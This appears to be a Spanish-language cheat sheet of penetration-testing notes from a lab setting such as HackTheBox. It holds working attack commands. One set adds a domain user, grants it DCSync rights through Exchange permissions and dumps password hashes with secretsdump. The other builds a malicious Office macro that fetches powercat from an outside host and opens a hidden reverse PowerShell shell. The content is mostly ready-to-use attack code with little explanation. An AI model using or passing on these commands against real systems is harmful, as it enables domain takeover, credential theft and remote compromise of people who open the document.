 # Explotacion

## Agregar un usuario a windows para luego dumpear hash - POWERVIEW

Exchange windows permissions permite modificar permisos, grupos y usuarios. Esto nos permite luego dumpear las hashes con secretsdump
Funciona SOLAMENTE si se tiene los permisos y los grupos de "Exchange Windows Permissions" y "Remote Management Users"

```sh
net user ema password123 /add /domain 
net group "Exchange Windows Permissions" ema /add
net localgroup "Remote Management Users" ema /add
$pass = Convertto-SecureString "password123" -AsPlain -force
$cred = New-Object System.management.automation.pscredential ("HTB\ema",$pass)
add-objectacl -principalidentity ema -credential $cred -rights DCSync

impacket-secretsdump HTB.local/ema@10.10.10.161
```
## Macros

Pasar esto a base64
```sh
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```
Convertir este base64 en chunks de 50 caracteres 

```py
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."
n = 50
for i in range(0, len(str), n):
    print("Str = Str + " + '"' + str[i:i+n] + '"')
```
Pegarlo en el macro
```sh
Sub AutoOpen()
 MyMacro
End Sub
Sub Document_Open()
 MyMacro
End Sub
Sub MyMacro()
 Dim Str As String
 
 Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
 Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
 Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
 ...
 Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
 Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
 Str = Str + "A== "
 CreateObject("Wscript.Shell").Run Str
End Sub
```
Esperar conexión
